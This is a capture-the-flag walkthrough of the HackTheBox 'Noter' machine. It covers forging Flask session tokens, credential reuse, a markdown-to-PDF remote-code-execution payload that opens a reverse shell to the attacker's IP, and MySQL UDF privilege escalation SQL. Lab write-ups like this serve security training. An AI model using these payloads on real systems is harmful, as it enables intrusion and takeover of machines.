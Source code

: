 ## Noter Machine

<img src="./img/box.png" allign="center" alt="Logo">

### Machine Stats :

<img src="./img/stats.png">

#### Walkthrough :

I started as always by scanning the machine ports :

<img src="./img/0.png">

* SSH on port 22.

* FTP on 21.

* A webserver on port 5000.


I tried anonymous login on ftp but that didn't work. So i decided to look at the web server on port 5000. It was a flask web app that provides users with a database to store and manage notes.

<img src="./img/2.png">

Trying common logins and passwords (admin:admin, *:*, root:root ...) or trigering an SQL error wasn't fruitful.
So i decided to register a user Tom to be able to further explore the app.

<img src="./img/3.png">


While inspecting the intercepted requests on burp, i found out that a session token (looks like JWT) is used.
I decoded it with jwt.io which revealed an awkward payload and an interesting header.

<img src="./img/4.png">

It wasn't actually a typical jwt which often looked more like this (with a valid signature):

<img src="./img/5.png">

I figured out that it was a flask token thanks to Carlos Polop's HackTricks (https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask/).
Using flask_unsign with a rockyou.txt as a wordlist was good enough to reveal the secret.


<img src="./img/6.png">

I'm now able to craft my own tokens using the same tool to bruteforce usernames.
All i needed was a bash script and a good wordlist to generate my tokens:

<img src="./img/7.png">

I used ffuf using my generated tokens as a session value and there was 2 200 HTTP responses (A wrong token redirects to /login).

<img src="./img/8.png">

A username "user" which was useless and another one named "blue" which actually had some stored notes.

One note written by ftp_admin exposed the ftp username and password of blue.

<img src="./img/9.png">

I used these creds to access ftp on port 21. It had an empty directory and a pdf file which exposed the comapany's password policy.
Reading only the title, i thought i only had some additional specifications making password guessing easier, but it actually specified the way default passwords are generated.

<img src="./img/11.png">

I tried to ftp using user:user@Noter! but it failed it made me think that it was just an account created by another HTB player.(i was so desperate that i tried root:root@Noter! too)
But there was a potential username which i didn't used yet, so i decided to give it a shot.
ftp_admin:ftp_admin@Noter! was the one.

<img src="./img/12.png">

i downloaded and decompressed the zip files and now i finally have the app's source code xD.

<img src="./img/13.png">

the app.py file had the database credentials

<img src="./img/14.png">

Through the templates folder, i discovered hidden paths import_note and export_note which looked promising with the "Export directly from cloud" feature.


<img src="./img/15.png">

It's backend code was in md_to_pdf.js. And Google proved again that it's my best friend, revealing an RCE vulnerability:

<img src="./img/16.png">

The only proof of concept i found was a local one :

<img src="./img/17.png">

But in my case i hosted a markdown file (.md) with a reverse shell payload:

``` ---js\n((require("child_process")).execSync("bash -i >& /dev/tcp/10.10.14.43/4444 0>&1"))\n--- ```

I prepared my listener and requested my malicious md file (http://10.10.14.43:80/a.md) from th vulnerable server to trigger the rce but it didn't work, i didn't catch a shell. 

<img src="./img/18.png">

I had this problem before and i thought i had a trick to fix it which was wrapping the revshell in bash -c ''.
It was better but i still didn't get an interactive shell.

<img src="./img/19.png">

Looking again at the public proof of concept i had an idea of seperating the shell and the rce payload.
And successfully got a shell.

<img src="./img/20.png">

Running linpeas revealed an open mysql port and i already have the root creds.
After some searching i found this Privilege Escalation with MySQL User Defined Functions:

<img src="./img/22.png">

I downloaded the library compiled it and made a text file containing the payload to copy the root flag to /tmp and make it readable.

``` 
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /root/root.txt /tmp; chown svc svc /tmp/root.txt;');
 ```

And now i have the root flag.

<img src="./img/23.png">


Made by Fckroun with <3
